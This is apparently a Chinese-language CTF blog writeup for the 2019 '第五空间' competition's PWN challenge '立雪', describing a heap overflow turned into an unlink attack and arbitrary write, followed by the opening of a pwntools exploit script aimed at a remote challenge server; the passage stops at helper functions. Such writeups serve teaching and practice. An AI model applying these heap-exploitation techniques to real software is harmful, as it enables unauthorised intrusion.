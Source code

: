 ```yaml
---
layout: posts
title: Writeup | 第五空间
date: 2019-08-29 14:41:23
tags: writeup

---
```


“第五空间”网络安全创新能力大赛线上初赛writeup



# WaterDrop WriteUp

## PWN

### 立雪

这道题比较简单，有一个堆溢出，直接修改下一个chunk的size，做一个unlink attack，然后就有任意写，再写到0x602088，之后就可以直接进后门了

payload如下

```python
from pwn import *

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn15')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('111.33.164.6', 50015)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def add(sz,content):
    sl('1')
    ru('note:')
    sl(str(sz))
    ru('note:')
    se(content)
    ru('choice:')

def edit(idx,sz,content):
    sl('2')
    ru('Index:')
    sl(str(idx))
    ru('Length of note:')
    sl(str(sz))
    ru('Content of note:')
    se(content)
    ru('choice:')
```
